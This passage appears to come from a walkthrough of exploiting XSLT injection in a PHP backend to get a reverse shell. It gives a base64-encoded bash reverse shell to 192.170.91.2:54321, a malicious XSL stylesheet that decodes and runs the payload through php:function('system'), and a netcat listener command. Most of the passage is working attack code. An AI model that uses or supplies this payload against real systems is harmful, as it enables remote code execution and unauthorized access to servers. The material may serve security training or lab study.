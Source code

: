 If the backend XSLT processing code has registered PHP functions, then the above code would run, and we will see the output of the **uname -a** command on the resulting page.

Next, we will base64-encode the reverse shell payload to avoid it being tampered with while uploading over HTTP:

```
echo "/bin/bash -c 'bash -i>& /dev/tcp/192.170.91.2/54321 0>&1'" | base64 -w0 ; echo
```

**Note:** Make sure to replace the IP address in the above command.

Add the reverse shell payload in the XSL file:

**test.xsl:**

```xml
<xsl:stylesheet xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:php="http://php.net/xsl"
version="1.0">
<!-- We add the PHP's xmlns -->
    <xsl:template match="/">
        <html>
            <!-- We use the php suffix to call the functions -->
            <xsl:value-of select="php:function('system','echo L2Jpbi9iYXNoIC1jICdiYXNoIC1pPiYgL2Rldi90Y3AvMTkyLjE3MC45MS4yLzU0MzIxIDA+JjEnCg==|base64 -d|bash')" />
            <!-- Output: 'Php Can Now Be Used In Xsl' -->
        </html>
    </xsl:template>
</xsl:stylesheet>
```

Start a Netcat listener on the attacker machine:

```
nc -lvp 54321
```
